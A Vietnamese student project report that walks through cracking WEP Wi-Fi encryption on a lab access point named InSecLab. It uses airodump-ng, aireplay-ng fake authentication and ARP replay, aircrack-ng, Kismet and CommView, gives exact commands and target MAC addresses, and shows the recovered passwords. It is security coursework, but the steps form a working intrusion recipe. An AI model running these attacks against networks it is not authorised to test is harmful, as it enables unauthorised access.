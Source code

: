 # Báo cáo đồ án môn học
## 1. Môi trường thực hành
Cấu hình phần cứng: Laptop Dell Intel(R) Core i7-4510U 2.00GHz 8GB RAM

Card Wifi: TENDA-W311U+

Máy ảo: Kali Linux 2020
## 2. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```sh 
 $ airodump-ng wlan0mon
```
![Thu thập thông tin wifi lân cận](images/airodump-ng.png)

Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](images/injection_test.png)

=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)

=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)

- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 3. Sử dụng Kismet để Crack WEP

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](images/kismet/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](images/kismet/wifiinfo.png)
![alt](images/kismet/wifiinfo1.png)

- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](images/kismet/kismetIVs.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV.pcap
```

Kết quả
![alt](images/kismet/res.png)

=> Pass wifi: ***1234567890***

## 4. Sử dụng CommView để Crack WEP
Sử dụng CommView để kiểm tra các mạng wifi xung quanh
![CommViewScan](images/Commview/scan.png)

Xem thông tin của mạng wifi InSecLab
![CommViewInfo](images/Commview/info.png)

Cấu hình để CommView bắt các gói tin của AP InSecLab và lưu vào file log

Cấu hình Channel để CommView bắt gói tin
![CommViewConfig](images/Commview/config1.png)

Cấu hình nơi lưu trữ file log
![CommViewConfig](images/Commview/config2.png)

Tiến hành bắt gói tin
![CommViewCapture](images/Commview/capturepacket.png)

Chúng ta sẽ bắt đủ gói tin để thu thập đủ số IV cần thiết để crack WEP. Trong CommView, sau khi thu thập đủ số gói tin ta sẽ xem nó dưới dạng log
![CommViewLog](images/Commview/log.png)

- Tiến hành Export file log thành file pcapng

Sau đó chúng ta sẽ sử dụng lệnh sau để chuyển đổi file **pcapng** thành file **pcap**
```sh
 $ tshark -F pcap -r raw.pcapng -w CaptureIV.pcap
```
Thực hiện crack sử dụng **aircrack-ng**
```sh
 $ aircrack-ng CaptureIV.pcap
```
Vì CommView bắt các gói tin dựa trên 1 channel cụ thể (do mình chỉ định hoặc có thể bắt các gói tin trên mọi channel) nên trong gói tin **pcap** không chỉ hiển thị AP mà ta muốn Crack mà còn rất nhiều AP khác chạy cùng channel với channel của AP muốn Crack. Nên chúng ta phải chọn tên của AP muốn Crack để **aircrack-ng** thực hiện nhiệm vụ.

Kết quả sau khi chạy lệnh trên
![CommViewRes](images/Commview/res.png)

=> Mật khẩu: ***chudt***
